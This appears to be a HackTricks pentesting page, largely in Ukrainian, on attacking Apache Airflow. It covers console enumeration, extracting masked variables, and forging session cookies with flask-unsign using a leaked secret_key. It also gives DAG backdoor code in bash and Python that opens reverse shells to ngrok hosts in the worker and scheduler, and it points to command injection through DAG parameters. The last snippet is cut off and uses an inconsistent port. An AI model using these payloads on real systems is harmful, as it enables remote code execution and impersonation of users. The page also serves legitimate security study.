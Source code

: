 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) служить платформою для **орchestrating та scheduling data pipelines або workflows**. Термін "orchestration" в контексті data pipelines означає процес організації, координації та управління складними data workflows, що походять з різних джерел. Основна мета цих orchestrated data pipelines полягає в наданні оброблених та споживаних data sets. Ці data sets широко використовуються безліччю додатків, включаючи, але не обмежуючись, інструментами бізнес-аналітики, моделями data science та machine learning, які є основою функціонування big data applications.

В основному, Apache Airflow дозволить вам **планувати виконання коду, коли щось** (подія, cron) **відбувається**.

### Local Lab

#### Docker-Compose

Ви можете використовувати **docker-compose config file з** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), щоб запустити повне середовище apache airflow в docker. (Якщо ви на MacOS, переконайтеся, що ви виділили принаймні 6 ГБ оперативної пам'яті для docker VM).

#### Minikube

Один із простих способів **запустити apache airflow** - це запустити його **з minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі конфігурації:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Перед початком атаки на Airflow ви повинні зрозуміти **як працюють дозволи**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Якщо у вас є **доступ до веб-консолі**, ви можете отримати доступ до деякої або всієї наступної інформації:

* **Змінні** (Користувацька чутлива інформація може зберігатися тут)
* **З'єднання** (Користувацька чутлива інформація може зберігатися тут)
* Доступ до них за адресою `http://<airflow>/connection/list/`
* [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може зберігатися тут)
* Список **користувачів та ролей**
* **Код кожного DAG** (який може містити цікаву інформацію)

#### Retrieve Variables Values

Змінні можуть зберігатися в Airflow, щоб **DAG** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатні дозволи**, ви можете отримати доступ до них у GUI за адресою `http://<airflow>/variable/list/`.\
Airflow за замовчуванням покаже значення змінної в GUI, однак, відповідно до [**цього**](https://marclamberti.com/blog/variables-with-apache-airflow/), можливо встановити **список змінних**, значення яких з'являться як **зірочки** в **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Однак ці **значення** все ще можна **отримати** через **CLI** (вам потрібно мати доступ до БД), **виконання довільного DAG**, **API** доступ до кінцевої точки змінних (API потрібно активувати) і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть на Дії -> Експортувати**.\
Інший спосіб - виконати **брутфорс** до **прихованого значення**, використовуючи **фільтрацію пошуку**, поки ви його не отримаєте:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Якщо конфігурація **`expose_config`** встановлена на **True**, з **ролі Користувач** і **вище** можуть **читати** **конфігурацію в вебі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим дійсним ключем може **створити свій власний підписаний cookie, щоб видавати себе за будь-який інший обліковий запис користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який надішле вам **зворотний шелл.**\
Зверніть увагу, що цей зворотний шелл буде виконуватись всередині **контейнера робітника airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

Якщо ви налаштуєте щось на **виконання в корені коду**, на момент написання цього тексту, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Створення DAG

Якщо вам вдасться **зламати машину всередині кластера DAG**, ви зможете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

#### Впровадження коду в DAG

Коли ви виконуєте DAG з GUI, ви можете **передавати аргументи** до нього.\
Отже, якщо DAG не правильно закодований, він може бути **вразливим до Command Injection.**\
Саме це сталося в цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати командні ін'єкції в DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, та ж вразливість може виникнути з **змінними** (зверніть увагу, що з достатніми привілеями ви могли б **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати ін'єкцію команди.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
